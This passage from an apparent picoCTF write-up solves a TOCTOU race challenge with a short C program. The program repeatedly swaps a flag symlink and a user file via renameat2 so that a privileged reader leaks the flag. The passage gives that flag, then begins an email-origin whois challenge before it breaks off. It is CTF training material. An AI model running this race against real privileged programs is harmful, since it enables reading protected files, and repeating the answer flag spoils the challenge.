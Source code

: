 ```
        }
```

Instead of the code I showed above, there is a faster built in way in linux that this hidden from the internet does:

```cpp
#define _GNU_SOURCE
#include <stdio.h>
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <linux/fs.h>

// source https://github.com/sroettger/35c3ctf_chals/blob/master/logrotate/exploit/rename.c
int main(int argc, char *argv[]) {
  while (1) {
    syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
  }
  return 0;
}
```

Running this script on two files, one with symbolic link to the flag and another user-made file tricks the reader program when it tried to read the symbolic-link file to print out the flag if you're lucky (just a few reruns needed).

And so:

> picoCTF{ToctoU_!s_3a5y_5748402c}

___
___

# who is it

**100 points**

AUTHOR: JUNIAS BONOU

Description
Someone just sent you an email claiming to be Google's co-founder Larry Page but you suspect a scam.
Can you help us identify whose mail server the email actually originated from?
Download the email file [here](). Flag: picoCTF{FirstnameLastname}

___

Looking into the `.eml` file its not very hard to see that the only IP address there is the attackers IP.

I tried for so long with many different websites to lookup either the mail or the IP and only [https://www.whatismyip.com/ip-whois-lookup/](https://www.whatismyip.com/ip-whois-lookup/) had the name of the person with the relevant IP: 173.249.33.206 and it's
